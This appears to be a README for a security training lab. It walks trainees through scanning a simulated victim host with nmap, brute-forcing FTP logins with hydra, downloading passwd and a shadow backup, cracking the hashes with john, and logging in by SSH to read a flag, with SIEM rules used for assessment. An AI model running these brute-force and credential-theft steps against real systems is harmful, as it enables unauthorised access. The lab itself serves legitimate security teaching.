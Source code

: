# Password Cracking Scenario
The aim of this scenario is to familiarize participants with common
security issues in operating systems by performing offensive tasks
such as reconnaissance and password cracking. Trainees will be able to
obtain insecure user credentials through brute-force attacks,
eventually getting SSH access to a victim system. 

The scenario simulates an company internal network and is composed of:

+ A previously compromised Linux machine (A), with the required attack
  tools.
+ A victim workstation (V) to use as target of the attack.


The user will use two common brute force tools:
+ [John the Ripper](http://www.openwall.com/john)
+ [THC-Hydra](https://github.com/vanhauser-thc/thc-hydra)

## Scenario objective:

Get SSH access to the victim and obtain the file `flag.txt` located in
the homedir of the user used to connect to the machine.

## Scenario resolution
The necessary steps to solve the scenario are as follows:

1. **Reconnaissance:** The first step is to do basic reconnaissance to
   discover services provided by the victim:
   ```console
   trainee01@attacker$ nmap 10.0.1.5
   Starting Nmap 7.80 ( https://nmap.org ) at 2023-09-28 13:43 UTC
   Nmap scan report for ip-10-0-1-5.ec2.internal (10.0.1.5)
   Host is up (0.0019s latency).
   Not shown: 998 closed ports
   PORT   STATE SERVICE
   21/tcp open  ftp
   22/tcp open  ssh

   Nmap done: 1 IP address (1 host up) scanned in 0.12 seconds
   ```
2. **Compile a list of possible usernames:** Using the information
   obtained from the company web site, found in `employees.html`,
   compile a list of possible usernames. The first user (crackable
   with `hydra`) is among the employees without a published email
   address, so trainees will have to fill out this information for all
   users, making an educated guess as to the username assignment
   policy.

3. **Find the first user (FTP):** Port-scanning shows that the victim
   offers the FTP service. Perform a brute-force attack with `hydra`,
   using the generated username list and options `-e nsr` to try
   passwords equal to the username, the reverse, and empty:
   ```console
   trainee01@attacker$ hydra -L userlist -ensr ftp://10.0.1.5
   [...]
   [DATA] max 16 tasks per 1 server, overall 16 tasks, 696 login tries (l:232/p:3), ~44 tries per task
   [DATA] attacking ftp://10.0.1.5:21/
	   [21][ftp] host: 10.0.1.5  login: halagia   password: halagia
   [...]
   1 of 1 target successfully completed, 1 valid password found
   ```

   Since this user has no shell, it can only be used to connect to the
   FTP service. Through the FTP service one can download the
   `/etc/passwd` file, since the service is not isolated correctly (no
   chroot), and a backup of the shadow file `shadow.bak`:
   ```console
   trainee01@attacker$ ssh halagia@10.0.1.5
   halagia@10.0.1.5's password: 
   Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-1012-aws x86_64)
   [...]
   This account is currently not available.
   Connection to 10.0.1.5 closed.
  
   trainee01@attacker$ ftp ftp://halagia:halagia@10.0.1.5
   Connected to 10.0.1.5.
   220 (vsFTPd 3.0.5)
   331 Please specify the password.
   230 Login successful.
   Remote system type is UNIX.
   Using binary mode to transfer files.
   200 Switching to Binary mode.
   ftp> ls
   229 Entering Extended Passive Mode (|||54914|)
   150 Here comes the directory listing.
   -rw-r--r--    1 1001     1001         1721 Oct 31 20:56 shadow.bak
   226 Directory send OK.
   ftp> get shadow.bak
   local: shadow.bak remote: shadow.bak
   229 Entering Extended Passive Mode (|||29207|)
   150 Opening BINARY mode data connection for shadow.bak (2305 bytes).
   100% |**************************|  1721       27.47 MiB/s    00:00 ETA
   226 Transfer complete.
   1721 bytes received in 00:00 (2.47 MiB/s)
   ftp> cd /etc
   250 Directory successfully changed.
   ftp> get passwd
   local: passwd remote: passwd
   229 Entering Extended Passive Mode (|||19306|)
   150 Opening BINARY mode data connection for passwd (2307 bytes).
   100% |**************************|  2307       27.50 MiB/s    00:00 ETA
   226 Transfer complete.
   2307 bytes received in 00:00 (1.29 MiB/s)
   ftp> exit
   221 Goodbye.
   ```
    
4. **Crack the second user:** Using the `unshadow` command,
   combine the information from the passwd and shadow files:
   ```console
   trainee01@attacker$ unshadow passwd shadow.bak > tocrack
   trainee01@attacker$ cat tocrack
   ...
   mmentesa:$6$rounds=656000$bimfuxpo$RptBix...:1004:1004:Maria J. Mentesana:/home/mmentesa:/bin/bash
   halagia:$6$rounds=656000$bvvdpknf$AA1j2y4...:1005:1005:Humberto R. Alagia:/home/halagia:/usr/sbin/nologin
   ```

   Using the unshadowed file, crack the remaining password with john:
   ```console
   trainee01@attacker$ john --single tocrack
   Created directory: /home/trainee01/.john
   Loaded 2 password hashes with 2 different salts [...]
   halagia           (halagia)
   mariamentesana!   (mmentesa)
   ```

   John immediately finds the FTP user password *halagia* (that is the
   same as the username), and a few seconds later, *mmentesa*'s that
   is based on their gecos information. This user has SSH access to
   the victim. The flag can be found in their homedir:
   ```console
   trainee01@attacker$ ssh mmentesa@10.0.1.5
   mmentesa@10.0.1.5's password: 
   Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-1012-aws x86_64)
   [...]
   mmentesa@victim-1$ cat flag.txt
   ~^4%l93sh1nb-5|ge6*&w+8[()<@mda0
   ```

## Assessment

The assessment is based on a set of Elastic Security SIEM rules. 
As students progress through the resolution, they will generate alerts based on key events identified by these rules. 
The alerts can be analyzed from the Security - Alerts menu in Kibana.









